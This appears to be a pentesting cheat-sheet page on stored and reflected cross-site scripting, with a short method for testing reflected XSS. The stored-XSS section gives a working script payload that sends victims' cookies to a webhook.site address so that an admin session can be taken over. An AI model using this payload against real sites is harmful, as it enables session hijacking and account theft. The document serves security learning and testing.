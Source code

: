 ## Stored Xss

Stored Cross-Site Scripting (XSS) attacks, often referred to as "persistent XSS", are a type of web vulnerability where malicious scripts are injected and stored on a web application's server. These scripts are then served to other users who visit the affected web page.

- [steal cookie](#steal-cookie)

### Steal cookie

The idea is to infect the web page so that when a user logs in, we steal their cookies. If it's the admin, we can then take control of the website.

#### Exploit with webhook

goto [WebHook website](https://webhook.site/) to get a https to redirect users and see their cookies.

```js
<script>document.location='	https://webhook.site/...?c=' + document.cookie</script>
```

## Reflected XSS

Reflected cross-site scripting (or XSS) arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

Suppose a website has a search function which receives the user-supplied search term in a URL parameter:`https://insecure-website.com/search?term=gift`

The application echoes the supplied search term in the response to this URL:

```html
<p>You searched for: gift</p>
```

Assuming the application doesn't perform any other processing of the data, an attacker can construct an attack like this:

```html
https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>
```

This URL results in the following response:

```html
<p>You searched for: <script>/* Bad stuff here... */</script></p>
```

If another user of the application requests the attacker's URL, then the script supplied by the attacker will execute in the victim user's browser, in the context of their session with the application.

### How to find and test for reflected XSS vulnerabilities

- Test every entry point:This includes parameters or other data within the URL query string and message body, and the URL file path. It also includes HTTP headers.
- Submit random alphanumeric values.For each entry point, submit a unique random value and determine whether the value is reflected in the response.
- Determine the reflection context.  For each location within the response where the random value is reflected, determine its context. This might be in text between HTML tags, within a tag attribute which might be quoted, within a JavaScript string, etc.
- Test a candidate payload. Based on the context of the reflection, test an initial candidate XSS payload that will trigger JavaScript execution if it is reflected unmodified within the response.
- Test alternative payloads. If the candidate XSS payload was modified by the application, or blocked altogether, then you will need to test alternative payloads and techniques that might deliver a working XSS attack based on the context of the reflection and the type of input validation that is being performed.
